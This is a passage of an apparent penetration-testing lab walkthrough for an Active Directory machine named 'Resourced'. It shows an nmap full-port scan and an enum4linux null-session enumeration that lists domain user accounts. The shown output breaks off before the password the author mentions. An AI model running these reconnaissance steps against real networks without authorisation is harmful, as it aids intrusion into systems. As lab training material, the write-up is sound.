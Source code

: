 # Resourced

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.219.175
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:34 +08
Nmap scan report for 192.168.219.175
Host is up (0.17s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49703/tcp open  unknown
49776/tcp open  unknown
```

This is an AD machine.&#x20;

### SMB Guest Creds --> Creds

`enum4linux` allowed for null credentials, and it listed a lot of users along with a password!

```
$ enum4linux -u '' -p '' -a 192.168.219.175
<TRUNCATED>
======================================( Users on 192.168.219.175 )======================================                                                                                 
                                                                                             
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
```